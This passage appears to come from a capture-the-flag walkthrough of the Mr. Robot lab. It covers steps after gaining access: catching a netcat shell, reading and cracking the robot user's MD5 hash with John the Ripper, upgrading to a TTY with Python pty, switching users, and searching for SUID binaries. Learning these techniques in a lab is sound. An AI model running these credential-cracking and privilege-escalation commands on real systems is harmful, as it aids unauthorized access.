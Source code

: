 ![image.png](image%207.png)

The netcat listener should catch a shell. Run `whoami` to confirm.

Post-exploit enumeration

List users and readable files:

```bash
ls /home
ls -la /home/robot
cat /home/robot/password.raw-md5
```

![image.png](image%208.png)

Copy any hashes you find.

Crack hashes with John

Save the hash to `md5.hash` and run:

```bash
john --wordlist=fsocity.dic --format=raw-md5 md5.hash
john --show md5.hash
```

This reveals the `robot` user’s password.

### Upgrade to the `robot` User

Upgrade shell to interactive TTY

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](image%209.png)

This makes `su` and other commands work properly.

Switch user to `robot`

```bash
su robot
```

Enter the cracked password. Confirm with `whoami` and read the second flag in `/home/robot`.

### Escalate to `root` User

Search for SUID binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

![image.png](image%2010.png)

Look for misconfigured binaries.

